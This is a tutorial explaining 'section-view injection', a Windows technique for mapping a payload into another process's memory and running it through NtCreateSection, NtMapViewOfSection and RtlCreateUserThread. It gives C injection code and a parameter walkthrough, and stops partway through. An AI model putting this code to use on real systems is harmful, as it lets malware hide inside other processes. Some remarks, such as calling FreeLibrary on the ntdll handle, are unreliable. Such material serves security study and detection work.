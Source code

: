 # Section-View Injection

[MSDN](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views) describes Sections and Views as:

> A section object represents a section of memory that can be shared. A process can use a section object to share parts of its memory address space (memory sections) with other processes. Section objects also provide the mechanism by which a process can map a file into its memory address space.

> Each memory section has one or more corresponding views. A view of a section is a part of the section that is actually visible to a process. The act of creating a view for a section is known as mapping a view of the section. Each process that is manipulating the contents of a section has its own view; a process can also have multiple views (to the same or different sections).

Essentially, this allows processes to share memory regions with each other and henceforth, we will see how we can use this mechanism to inject code into a remote process. 

## The Code

Starting off with the `main()` function, we follow the usual convention of finding the PID of the target process and then passing it on as a parameter to the `inject_section_view()` function which contains the injection code.

```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_section_view(pid);
    return 0;
}
```

The `inject_section_view()` function has the following structure:
```c
// map section views injection
int inject_section_view(DWORD pid) {
	CLIENT_ID cid;
    NTSTATUS status; 
    HANDLE hThread = NULL;
    HANDLE hSection = NULL;
    PVOID pLocalView = NULL; 
    PVOID pRemoteView = NULL;

    // Resolve Functions
    HMODULE hNtdll = GetModuleHandle("NTDLL.DLL");
	NtCreateSection_t pNtCreateSection = (NtCreateSection_t) GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection_t pNtMapViewOfSection = (NtMapViewOfSection_t) GetProcAddress(hNtdll, "NtMapViewOfSection");
	RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t) GetProcAddress(hNtdll, "RtlCreateUserThread");
    FreeLibrary(hNtdll);

    // Create and map Section
	status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
    status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
    memcpy(pLocalView, payload, payload_len);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	status = pNtMapViewOfSection(hSection, hProcess, &pRemoteView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
	
    // Create thread
    status = pRtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
	int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hSection);
    CloseHandle(hProcess);
    return 0;
}
```

The program can be roughly divided into three parts. We begin with dynamically resolving the addresses of  `NtCreateSection`, `NtMapViewOfSection` and `RtlCreateUserThread` from `NtDLL` using a combination of `GetModuleHandle()` and `GetProcAddress()`. Once we have the addresses we need, we free the module handle with `FreeLibrary()` because that is the right thing to do 🥰

Next up, we use `NtCreateSection()` to create a section object with the following parameters: 
- `&hSection`: This is a pointer to a HANDLE variable that will receive the handle to the created section object. 
- `SECTION_ALL_ACCESS`: This parameter specifies the desired access rights for the section object. In this case, we want to have all possible access rights to the section including read, write, and execute permissions, among others.
- `NULL`: This parameter represents a pointer to a `SECURITY_DESCRIPTOR` structure, which is used to control security settings for the object. Passing `NULL` indicates that the default security settings should be used.
- `(PLARGE_INTEGER) &payload_len`: This indicates the size of the section object to be created. In this case, we type cast the address of the variable holding the size of the payload(`&payload_len`) to a `PLARGE_INTEGER`.
- `SEC_COMMIT`: This parameter specifies that the memory for the section should be immediately allocated and committed, making it available for use.
- `NULL`: This parameter represents a pointer to a `SEC_IMAGE_INFORMATION` structure. It's used for image files and can be safely set to `NULL` when not applicable.

Once the section object has been created, then we map it to the current process's virtual address space using `NtMapViewOfSection()`

